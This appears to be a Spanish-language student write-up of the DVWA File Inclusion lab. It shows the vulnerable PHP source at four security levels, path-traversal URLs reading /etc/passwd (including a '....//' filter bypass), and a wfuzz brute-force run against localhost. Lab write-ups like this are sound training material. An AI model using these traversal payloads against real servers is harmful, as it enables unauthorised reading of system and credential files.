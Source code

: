 # FI

## Nivel: `bajo`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```

### vulnerability check

```
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

![check1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/check1.png)

---

Durante la realización del nivel bajo se probo la herramienta `wfuzz` para hacer fuzzing de la URI, pero no se obtuvo ningún resultado extra.
Realmente el uso de la herramienta no nos ayudo a solucionar el reto de este nivel, pero si que nos ayudo a entender como funciona la herramienta y posibles usos de la misma.

```
wfuzz -c --hl 81 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -b "security=low; PHPSESSID=eboalr1aom47l322etbqjebovg" "http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/FUZZ.php"
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/FUZZ.php
Total requests: 81643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001463:   200        92 L     267 W      3491 Ch     "fi"                                                                                                                                                                       

Total time: 0
Processed Requests: 81643
Filtered Requests: 81642
Requests/sec.: 0
```

## Nivel: `medio`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```

### vulnerability check

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```

![check2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/check2.png)

## Nivel: `alto`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

### vulnerability check

## Nivel: `imposible`

### source

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

### vulnerability check

## Referencias

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HTB Academy](https://academy.hackthebox.com/module/77/section/725)
